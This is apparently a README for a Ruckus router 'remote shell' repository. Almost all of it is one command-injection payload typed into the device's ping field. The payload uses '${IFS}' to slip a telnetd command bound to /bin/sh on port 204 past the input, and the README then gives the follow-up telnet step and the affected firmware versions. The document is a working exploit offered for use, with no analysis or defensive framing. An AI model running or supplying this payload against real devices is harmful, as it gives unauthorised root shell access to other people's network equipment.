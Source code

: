 # ruckus remote shell
ruckus remote shell
Thanks to https://bitbucket.org/dudux/ruckus-rootshell

## run follow in ping:
|telnetd${IFS}-p${IFS}204${IFS}-l${IFS}/bin/sh

then telnet to port 204

only for version <= 100.1.0.0.194

To unlock countrycode, try bsp command.
